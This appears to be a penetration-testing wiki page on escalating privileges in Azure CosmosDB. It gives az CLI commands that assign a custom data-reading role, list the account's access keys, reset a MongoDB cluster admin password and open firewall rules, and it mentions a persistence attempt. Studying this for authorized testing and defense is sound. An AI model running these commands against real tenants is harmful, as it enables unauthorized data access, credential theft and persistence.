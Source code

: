 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-cosmosDB.md
{{#endref}}

### (`Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read`) & (`Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read`)

With this permissions you can priviledgeescalate giving a user the pemrissions to execute queries and connect to the database. First a definition role is created giving the necesary permissions and scopes.

```bash
az cosmosdb sql role definition create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --body '{
      "Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
      "RoleName": "CustomReadRole",
      "Type": "CustomRole",
      "AssignableScopes": [
        "/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
      ],
      "Permissions": [
        {
          "DataActions": [
            "Microsoft.DocumentDB/databaseAccounts/readMetadata",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
            "Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
          ]
        }
      ]
    }'
```

After that the assigment of the definition is given to a user. After this that user can use the DefaultAzureCredential() connection method to execute queries.

```bash
az cosmosdb sql role assignment create \
    --account-name <account_name> \
    --resource-group <resource_group_name> \
    --role-definition-id <Random-Unique-ID-used-in-definition> \
    --principal-id <principal_id-togive-perms> \
    --scope "/"
```

### `Microsoft.DocumentDB/databaseAccounts/listKeys/action`

With this permission, you can retrieve the primary and secondary keys for an Azure Cosmos DB account. These keys provide full access to the database account and its resources, enabling actions such as data reads, writes, and configuration changes.

```bash
az cosmosdb keys list \
  --name <account_name> \
  --resource-group <resource_group_name>

```

### `Microsoft.DocumentDB/mongoClusters/read` , `Microsoft.DocumentDB/mongoClusters/write`

With this permission, you can create, update, or delete MongoDB clusters on Azure Cosmos DB. This includes provisioning new clusters, modifying existing cluster configurations, decommissioning clusters, or **changing the admin user's password**.

```bash
az cosmosdb mongocluster update \
  --cluster-name <cluster-name> \
  --resource-group <res-group> \
  --administrator-login "<username>" \
  --administrator-login-password "<password>" 
```

### `Microsoft.DocumentDB/mongoClusters/read` , `Microsoft.DocumentDB/mongoClusters/firewallRules/write`

With this permission, you can create or modify firewall rules for a MongoDB cluster on Azure Cosmos DB. This allows control over which IP addresses or ranges can access the cluster. Unauthorized or improper use of this permission could expose the cluster to unwanted or malicious access.

```bash
# Create Rule
az cosmosdb mongocluster firewall-rule create \
  --cluster-name <cluster-name> \
  --resource-group <res-group> \
  --rule-name <rule-name> \
  --start-ip-address <start_ip> \
  --end-ip-address <end_ip>
```

Note that by the time of the writing, MongoDB vCore doesn't support to create users internally, which would be great for persistence purposes:

```bash
mongos] test> db.createUser({
  user: "adminUser",
  pwd: "securePassword",
  roles: [ { role: "root", db: "admin" } ]
})
MongoServerError[CommandNotSupported]: CreateUser command is not supported
```


{{#include ../../../banners/hacktricks-training.md}}
